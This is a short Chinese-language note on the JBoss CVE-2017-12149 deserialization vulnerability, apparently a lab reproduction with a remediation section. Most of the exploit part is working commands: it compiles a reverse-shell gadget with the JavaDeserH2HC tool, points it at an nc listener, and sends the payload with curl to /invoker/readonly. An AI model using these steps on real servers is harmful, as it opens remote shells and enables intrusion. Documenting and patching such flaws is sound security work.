


## JBoss 5.x/6.x 反序列化漏洞（CVE-2017-12149）

访问 /invoker/readonly
返回500，说明页面存在，此页面存在反序列化漏洞。


利用工具:[JavaDeserH2HC](https://github.com/joaomatosf/JavaDeserH2HC),我们选择一个Gadget：ReverseShellCommonsCollectionsHashMap，编译并生成序列化数据：

生成ReverseShellCommonsCollectionsHashMap.class
```
javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java
```
生成ReverseShellCommonsCollectionsHashMap.ser
```
java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap 192.168.31.232:6666（ip是nc所在的ip）
```

利用：
```
curl http://192.168.31.205:8080/invoker/readonly --data-binary @ReverseShellCommonsCollectionsHashMap.ser
```



## 修复建议
1. 不需要 http-invoker.sar 组件的用户可直接删除此组件。路径为：`C:\jboss-6.1.0.Final\server\default\deploy\http-invoker.sar`,删除后访问404.

2. 或添加如下代码至 http-invoker.sar 下 web.xml 的 security-constraint 标签中，对 http invoker 组件进行访问控制：
`<url-pattern>/*</url-pattern>`
路径为：`C:\jboss-6.1.0.Final\server\default\deploy\http-invoker.sar\invoker.war\WEB-INF\web.xml`
